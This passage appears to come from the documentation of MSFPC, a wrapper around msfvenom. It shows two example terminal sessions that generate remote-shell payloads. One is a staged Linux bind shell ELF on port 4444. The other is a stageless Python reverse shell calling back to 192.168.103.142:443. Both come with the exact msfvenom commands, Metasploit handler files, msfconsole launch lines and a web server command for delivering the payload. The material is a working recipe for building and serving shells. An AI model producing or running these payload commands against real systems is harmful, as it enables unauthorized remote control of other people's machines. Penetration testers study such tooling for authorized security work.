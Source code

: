 ## Example \#2 (Linux Format, Fully Automated Using Manual Interface and Port)

```bash
$ ./msfpc.sh elf bind eth0 4444 verbose
 [*] MSFvenom Payload Creator (MSFPC v1.4.4)
 [i]        IP: 192.168.103.142
 [i]      PORT: 4444
 [i]      TYPE: linux (linux/x86/shell/bind_tcp)
 [i]     SHELL: shell
 [i] DIRECTION: bind
 [i]     STAGE: staged
 [i]    METHOD: tcp
 [i]       CMD: msfvenom -p linux/x86/shell/bind_tcp -f elf \
  --platform linux -a x86 -e generic/none  LPORT=4444 \
  > '/root/linux-shell-staged-bind-tcp-4444.elf'

 [i] linux shell created: '/root/linux-shell-staged-bind-tcp-4444.elf'

 [i] File: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, corrupted section header size
 [i] Size: 4.0K
 [i]  MD5: eed4623b765eea623f2e0206b63aad61
 [i] SHA1: 0b5dabd945ef81ec9283768054b3c22125aa9185

 [i] MSF handler file: '/root/linux-shell-staged-bind-tcp-4444-elf.rc'
 [i] Run: msfconsole -q -r '/root/linux-shell-staged-bind-tcp-4444-elf.rc'
 [?] Quick web server (for file transfer)?: python2 -m SimpleHTTPServer 8080
 [*] Done!
$
```


## Example \#3 (Python Format, Interactive IP Menu)

```bash
$ msfpc stageless cmd py tcp
 [*] MSFvenom Payload Creator (MSFPC v1.4.4)

 [i] Use which interface - IP address?:
 [i]   1.) eth0 - 192.168.103.142
 [i]   2.) lo - 127.0.0.1
 [i]   3.) wan - 31.204.154.174
 [?] Select 1-3, interface or IP address: 1

 [i]   IP: 192.168.103.142
 [i] PORT: 443
 [i] TYPE: python (python/shell_reverse_tcp)
 [i]  CMD: msfvenom -p python/shell_reverse_tcp -f raw \
  --platform python -e generic/none -a python LHOST=192.168.103.142 LPORT=443 \
  > '/root/python-shell-stageless-reverse-tcp-443.py'

 [i] python shell created: '/root/python-shell-stageless-reverse-tcp-443.py'

 [i] MSF handler file: '/root/python-shell-stageless-reverse-tcp-443-py.rc'
 [i] Run: msfconsole -q -r '/root/python-shell-stageless-reverse-tcp-443-py.rc'
 [?] Quick web server (for file transfer)?: python2 -m SimpleHTTPServer 8080
 [*] Done!
$
```
